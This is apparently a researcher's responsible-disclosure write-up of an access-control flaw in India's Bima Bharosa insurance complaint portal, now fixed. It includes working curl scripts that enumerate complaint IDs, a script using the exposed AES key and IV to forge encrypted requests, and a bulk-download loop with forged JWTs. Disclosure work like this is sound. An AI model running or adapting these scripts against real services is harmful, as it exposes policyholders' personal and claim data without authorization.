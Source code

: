 ```yaml
---
title: Bimabharosa IRDAI
date:
  created: 2025-08-14
  updated: 2025-09-12
---
```


# BimaBharosa IRDAI Vulnerability 2024

The Bima Bharosa portal (<https://bimabharosa.irdai.gov.in>) had a vulnerability in its complaint history API that allowed access to sensitive complaint details by simply incrementing the complaint ID. This exposed personal and claim information of policyholders without authentication.

Summary of the vulnerabilities:

| Sr | API | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|-----|--------------|------------|------------|--------------------------|
| 1  | [GetComplainthistorydata](#1-getcomplainthistorydata) | 18 November 2024 | before 30 November 2024 | less than 12 days | 68209424 |
| 2  | [encrypted GetComplainthistorydata](#2-getcomplainthistorydata-encrypted-payload) | 30 November 2024 | 1 January 2025 | 31 days | 68209424 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication

<!-- more -->

### 1. GetComplainthistorydata

The API endpoint `/api/PolicyholderComplaint/GetComplainthistorydata` accepted a POST parameter `complaint_Id` and returned the full complaint history for that ID. No authentication or authorization was required. By incrementing the `complaint_Id`, an attacker could access complaint details of other users, including names, policy numbers, claim details, and remarks from insurers.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
curl 'https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata' -X POST \
 --data-raw 'complaint_Id=4390102'
```

<details>
<summary>Sample response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_bimabharosa/bimabharosa_vuln_1.json"
```
</details>

### $$ Bogus encryption

An encryption was added to API request and response but with the KEY and IV exposed in the front-end code.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
# Hex representation of "1234567890000000", exposed in the front-end code.
KEY=3132333435363738393030303030303031323334353637383930303030303030
# Hex representation of "7061737323313233", exposed in the front-end code.
IV=37303631373337333233333133323333

decrypt() {
    echo $(echo -n "$1"| xxd -r -p | openssl enc -aes-256-cbc -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -aes-256-cbc -K "$KEY" -iv "$IV" | xxd -p | tr '[:lower:]' '[:upper:]')
}

for i in "BB2D310BF97F463A42D24E39C1187650" "C5C26E3D620D69E9422744CF50A3D523" "159EF5E147F60C65ECFBF9F9E7B31794"; do
    echo "Input: $i"
    decrypted=$(decrypt "$i")
    echo "Decrypted: $decrypted"
    echo
done

for i in "[]" "null" ""; do
    echo "Input: $i"
    encrypted=$(encrypt "$i")
    echo "Encrypted: $encrypted"
    echo
done
```

### 2. GetComplainthistorydata encrypted payload

This API accepted encrypted payload and provided encrypted response, but still without authorization checks.

Further, any JWT that anyone created was accepted by the API.

The two joined tokens in the header `Authorization` are useless.

```bash title="sample_script_encrypted.sh" linenums="1"
for complaint_id in {4390200..4390249}; do
    input="{\"complaint_Id\":\"$complaint_id\"}"

    payload="$(encrypt "$input")"

    curl -X POST "https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata" \
    -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk2ODQyNCwiaWF0IjoxNzMyOTY4MzY0fQ.h8DOqtaQ-aLch-XbiSSzUIIZKmPKq2eVScY20x1yEbQ:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk3MTk2NCwiaWF0IjoxNzMyOTY4MzY0fQ.7ftbp4DhReEyRiXqvfu6E3st1jgqJ_u2EJUr9Rog7os" \
    -H "Cookie: portal-culture=en; $$$$$$$$" \
    --data-urlencode "EncryptUpdateData=$payload" \
    -o "bimabharosa_vuln_2_$complaint_id.json"

    decrypt "$(cat "bimabharosa_vuln_2_$complaint_id.json")" > "bimabharosa_vuln_2_decr_$complaint_id.json"
done
```

### $$ Proper fix

After I provided pseudo-code to CERT-in (and bimabharosa), a proper fix was implemented. In the JWT,
a field was added to list all the complaint IDs. Upon subsequent calls to the APi, only if
the token contained the current ID, the API would return the response.

> Token creation code:
>
> ```
> token.complaint_ids = db.get_all_complaint_ids_of_user(user_id)
> ```
>
> API code:
>
> ```
> if token.complaint_ids.contains(api_payload.complaint_id):
     > return data
> else:
     > return "Unauthorized"
>
> ```
>
> Expired tokens should be rejected!!
>
> Remove the encryption and decryption logic from the payload and response. It is useless. It is security by obscurity which is a bad idea. Data protection can be done without encryption by using JWT tokens properly.
